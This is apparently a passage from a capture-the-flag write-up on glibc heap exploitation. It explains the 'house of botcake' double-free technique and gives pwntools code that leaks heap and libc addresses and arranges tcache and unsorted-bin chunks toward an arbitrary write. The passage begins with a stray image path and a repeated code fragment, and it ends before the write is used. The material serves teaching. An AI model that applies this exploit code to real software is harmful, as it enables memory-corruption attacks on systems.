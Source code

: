 ```py

free(8) # free(a) => unsortedbin
free(7) # free(prev) => merged with a

# leak libc
view(8)

libc.address = pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) - 0x219ce0 # offset of the unsorted bin
pwn.log.success(f"libc: {hex(libc.address)}")
```

## House of botcake for the win

The house of botcake is very easy to understand, it is useful when you can trigger some double free bug. It is basically:

- Allocate 7 0x100 sized chunks to then fill the tcache (7 entries).
- Allocate two more 0x100 sized chunks (prev and a in the example).
- Allocate a small “barrier” 0x10 sized chunk.
- Fill the tcache by freeing the first 7 chunks.
- free(a), thus a falls into the unsortedbin.
- free(prev), thus prev is consolidated with a to create a large 0x221 sized chunk that is remains in the unsortedbin.
- Request one more 0x100 sized chunk to let a single entry available in the tcache.
- free(a) again, given a is part of the large 0x221 sized chunk it leads to an UAF. Thus a falls into the tcache.
- That’s finished, to get a write what where we just need to request a 0x130 sized chunk. Thus we can hiijack the next fp of a that is currently referenced by the tcache by the location we wanna write to. And next time two 0x100 sized chunks are requested, the second one will be the target location.

Which gives:
```py
for i in range(7):
    add(i, 0x100, b"")

# leak

free(0)
view(0)

heap = ((pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) << 12) - 0x2000)
pwn.log.info(f"heap @ {hex(heap)}")

add(0, 0x100, b"YY")

add(7, 0x100, b"YY") # prev
add(8, 0x100, b"YY") # a

# fill tcache
for i in range(7):
    free(i)

for _ in range(20):
    add(9, 0x10, b"/bin/sh\0") # barrier

free(8) # free(a) => unsortedbin
free(7) # free(prev) => merged with a

# leak libc
view(8)

```
